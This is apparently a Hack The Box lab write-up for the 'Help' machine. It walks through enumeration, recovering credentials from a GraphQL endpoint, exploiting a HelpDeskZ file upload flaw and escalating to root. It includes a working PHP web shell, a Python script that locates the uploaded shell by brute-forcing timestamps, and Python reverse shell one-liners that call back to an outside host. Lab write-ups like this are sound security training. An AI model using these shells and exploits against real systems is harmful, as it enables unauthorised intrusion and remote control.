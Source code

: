 # Help

![alt text](Images/help.png)

__Machine URL__: https://www.hackthebox.eu/home/machines/profile/170

__Machine IP__: 10.10.10.121

__DATE__ : 3/05/2019

__START TIME__: 9:50 AM

***


`Nmap scan`
-----------

![alt text](Images/nmap.png)

There is nothing new going on in here. Just some basic ports along with a port 3000 running another website written in node.

Let's enum both of those website and see what we find


`dirsearch`
-------------

![alt text](Images/dirsearch-1.png)

So there's a javascript folder but when we try to open it up we get error `403`that means we are forbidden from accessing the content.

But we can open the `/support/` URL.

Let's see what we find on port `3000` i.e the nodejs website

![alt text](Images/dirsearch-2.png)

The port 3000 looks like having an API. And there are two URLs that have been found.

Getting Credentials
--------------------

If we visit the http://10.10.10.121:3000/ we get the following data:

```json
➜ http http://10.10.10.121:3000/ | jq .
{
  "message": "Hi Shiv, To get access please find the credentials with given query"
}
```

We know one thing from this. That there's a user(maybe admin?) named `Shiv`

Now visiting the `graphql/` We get:

```bash
➜ http http://10.10.10.121:3000/graphql
HTTP/1.1 400 Bad Request
Connection: keep-alive
Date: Fri, 03 May 2019 04:57:46 GMT
Transfer-Encoding: chunked
X-Powered-By: Express

GET query missing.
```
So we can use this to find more information about the user and password.

![](Images/graphql.png)


Cracking the hash `5d3c93182bb20f07b994a7f617e99cff` we get `godhelpmeplz`

CREDENTIALS: `helpme@helpme.com:godhelpmeplz`

**NOTE**: How did I found it in a first try? Read: https://github.com/Anonyme1396/security-tips/blob/master/web.md#exploiting-2

File Upload Vulnerability
-------------------------

A simple google search with `Helpdeskz exploit` bears out a result [HelpDeskZ 1.0.2 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40300)

This mean we can upload the file and then simply use this to find the location of the uploaded file.

I uploaded a `backdoor.php`

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

![](Images/backdoor.php)

When you'll submit the file it is possible that you'll get an error saying
`File is not allowed.`. This does set me off first so I decided to go through the `Helpdeskz` [source code](https://github.com/evolutionscript/HelpDeskZ-1.0), since it is open source application.


After looking around I found a file in `include/parser` called `new-ticket.php`

![](Images/ticket-source.png)

After the file is uploaded it perform a check on the `$fileinfo` by passing that value to a `verifyAttachment` function. Let's take a look at this function

![](Images/verify-source.png)

This function is perform multiple checks on the file but there's isn't any `file extension` check. This mean the error we are getting i.e `File not allowed` is meaningless and we can totally ignore it.

Exploit
-------
One of my friend suggested to use the exploit from `0day`

```python
import requests
import hashlib
from time import time


def md5(data):
    return hashlib.md5(data.encode("utf-8")).hexdigest()


def get(base, filename, at):
    uploaded_file = "{}/uploads/tickets/{}.{}".format(
        base.rstrip("/"), md5(filename + str(at)), filename.split(".")[-1]
    )

    r = requests.get(uploaded_file)
    if r.status_code == 200:
        return uploaded_file


def main():
    for i in range(1000):
        url = get("http://10.10.10.121/support/", "backdoor.php", int(time() - i))
        if url is not None:
            print(url)
            return
    print("Oops ... not found")


if __name__ == "__main__":
    main()
```

Since there's some timezone issue with `Helpdeskz` I decided to change the timezone.

![](Images/timezone.png)

Then I ran the exploit and got the path to the file.

```
http://10.10.10.121/support/uploads/tickets/84c045a6c4cccf0880fc139c6ba7599a.php
```

PWN USER
--------

![whoami](Images/whoami)

In this way we can get the user

![](Images/user.png)

PWN root
--------

Now first we need to get reverse shell to get into the machine. I tried to pass
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
but for some reason this didn't worked so I encoded everything and then decided to do it.
```bash
http://10.10.10.121/support/uploads/tickets/84c045a6c4cccf0880fc139c6ba7599a.php?cmd="python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.12.139%22%2C4444))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27"
```
With this I got the reverse shell.

Then I spawned a pty shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

After that I enumerated with the help of `LinEnum` and found a kernel vulnerable to [local privilege escalation vulnerability](https://www.exploit-db.com/exploits/44298)

![](Images/kernel.png)

So I downloaded the exploit and compiled it and then run it. This will give you the root shell. Then you can simply cat the `/root/root.txt`

```
b7fe6082dcdf0c1b1eXXXXXXXXXXXXXXX
```
